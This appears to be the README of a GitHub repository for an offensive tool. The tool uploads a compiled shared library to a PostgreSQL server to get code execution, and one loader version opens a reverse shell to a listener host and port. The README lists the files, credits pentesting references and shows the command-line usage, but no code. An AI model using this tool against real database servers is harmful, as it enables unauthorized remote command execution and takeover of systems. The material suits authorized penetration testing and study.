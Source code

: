 # psql_UDF

This repo includes 4 files:

pg_exec.c  (file for creating .so, you should use docker with a compatible version of postgresql)
psql_so_loader_auto.py (script to load .so lib on the postgresql server if you have rights)
psql_so_loader_auto_v2.py (the same script but with socket server for reverse shell)
server_for_pg.py (just alone socket server for reverse shell)


Thanks a lot those people:

https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions
https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/big-binary-files-upload-postgresql
https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md
https://gist.github.com/0xabe-io/916cf3af33d1c0592a90
https://xakep.ru/2020/04/14/python-reverse-shell/#toc03.1

USAGE:

python psql_so_loader_auto_v2.py [-h] [-p PASSWORD] [-u USERNAME] [-d DATABASE] [-H HOSTNAME] [-P PORT] [-rh RHOST] [-rp RPORT] -f FILENAME

This is parser arguments

options:
  -h, --help            show this help message and exit
  -p PASSWORD, --password PASSWORD
                        pass for postgresql
  -u USERNAME, --username USERNAME
                        user for postgresql
  -d DATABASE, --database DATABASE
                        database for postgresql
  -H HOSTNAME, --hostname HOSTNAME
                        hostname or IP for postgresql
  -P PORT, --port PORT  database for postgresql
  -rh RHOST, --rhost RHOST
                        ip of host listen reverse
  -rp RPORT, --rport RPORT
                        port of host listen reverse
  -f FILENAME, --filename FILENAME
                        file name of lib.so

